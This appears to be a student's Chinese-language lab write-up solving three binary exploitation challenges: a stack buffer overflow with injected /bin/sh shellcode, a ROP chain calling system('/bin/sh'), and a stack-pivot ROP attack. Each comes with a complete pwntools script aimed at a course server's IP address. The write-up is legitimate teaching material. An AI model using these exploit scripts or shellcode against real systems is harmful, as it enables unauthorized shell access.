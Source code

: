 # 栈上缓冲区溢出

​	程序中构造了payload并传输给原程序，使用100个'A'填充了原程序中的buffer数组，8个'b'覆盖了原rbp，然后填入篡改后的return address以及shellcode。

​	通过计算可得shellcode在系统栈中的地址为id_addr+0x100+0x10 (0x100为buffer数组，0x10为rbp和return address)，因此将return_address篡改为计算出的shellcode地址，使程序通过跳出函数时执行shellcode，完成攻击。

```python
from pwn import *

context.log_level = 'DEBUG'

p = remote('8.154.20.109', 10100)  
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
p.recvuntil(b'address: ')
id_addr = int(p.recvuntil('\n'), 16)
print('[*] id_addr = ' + hex(id_addr)) 
rt_addr=id_addr+0x100+0x10


shellcode = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
payload =b"A"*0x100 + b"B"*8 + p64(rt_addr) + shellcode
p.sendline(payload)
p.interactive()
```

![flag1](/spof/flag.jpg)







# ROP

## Rop2

​	原程序提供了system函数，但是执行的是"/bin/ls"，同时原程序也提供了"/bin/sh"字段，可以通过截获system函数和"/bin/sh"的地址，构造ROP链进行攻击。

​	首先需要0x58个字节进行填充（0x4填充len，0x40填充buffer，0xC补全至16的倍数，0x8覆盖原rbp），然后填入rdi=gstr_addr（指向"/bin/sh"）的指令，用于传输system函数的参数。由于system函数执行时要求16字节对齐，因此需填入一个直接跳转指令，即ret指令。最后填入system函数的地址，完成攻击。

```python
from pwn import *

context.log_level = 'DEBUG' # set debug logging
context.arch = 'amd64'

p = remote('8.154.20.109',10101)
binary = ELF("./rop2")
rop = ROP(binary)

system_addr = binary.symbols['system']
gstr_addr = binary.symbols['gstr']

payload = b"A"*0x58
rop(rdi = gstr_addr)   # gadgets that will make rdi to expected value
rop.raw(rop.find_gadget(['ret'])[0])
rop.raw(system_addr)       # gadgets that will return to target function
payload += rop.chain()
payload = payload + b"B" * (128 - len(payload)) # padding

p.recvuntil(b"ID:\n")
p.sendline(b'----------')//学号
p.recvuntil(b"[*] Please input the length of data:\n")
p.sendline(b"128")
p.recvuntil(b"[*] Please input the data:\n")
p.send(payload)

p.interactive()
```

![flag2](/rop2/flag.jpg)



## Rop3

​	原程序中限制了buffer数组的长度，无法通过简单的rop进行攻击。注意到原程序中还有一个gbuffer可使用，因此需要在buffer溢出时实现栈迁移，将rbp，rsp迁移到gbuffer中，在gbuffer中继续构造rop链，实现攻击。

![Inst](/rop3/Inst.jpg)

​	首先使用ROPgadget获取leave_ret，pot_ret，ret指令的地址。利用得到的地址开始构造ROP链。	

​	程序中构造了两个payload，分别用于填充gbuffer和buffer。其中payload2用于填充buffer，由0x40个填充字节，指向gbuffer的假rbp以及leave_ret指令组成；payload1用于填充gbuffer，由"/bin/sh"字段，pop_rdi指令，gbuffer地址（由于gbuffer的最小地址处被填充为"/bin/sh"，该地址指向"/bin/sh"参数），ret指令以及system函数地址组成。

​	在程序运行时，首先在func函数运行结束时，系统将会执行leave_ret指令，此时rbp的值被修改为gbuffer的地址，由于此时的ret_address被改为了leave_ret指令地址，程序将再次执行leave_ret指令，将rsp的值修改为gbuffer的地址，完成栈迁移。在gbuffer栈中先运行pop_ret指令，将"\bin\sh"写入rdi，然后使用ret指令填充至16位对齐，最后执行system函数，完成攻击。

```python
from pwn import *

context.log_level = 'DEBUG' # set debug logging
context.arch = 'amd64'

p = remote('8.154.20.109',10102)
binary = ELF("./rop3")
rop = ROP(binary)

gbuffer_addr=binary.symbols['gbuffer']
leave_addr=0x400700
popret_addr=0x400823
ret_addr=0x400586

p.recvuntil(b"ID:\n")
p.sendline(b'----------')//学号
p.recvuntil("address: ")
sys_addr=p.recvline().decode().strip()

payload1=b"/bin/sh\x00"
payload1+=p64(popret_addr)
payload1+=p64(gbuffer_addr)
payload1+=p64(ret_addr)
payload1+=p64(int(sys_addr,16))

p.send(payload1)

p.recvuntil("> ")
payload2=b"A"*0x40+p64(gbuffer_addr)+p64(leave_addr)
p.sendline(payload2)

p.interactive()
```

![flag3](/rop3/flag.jpg)
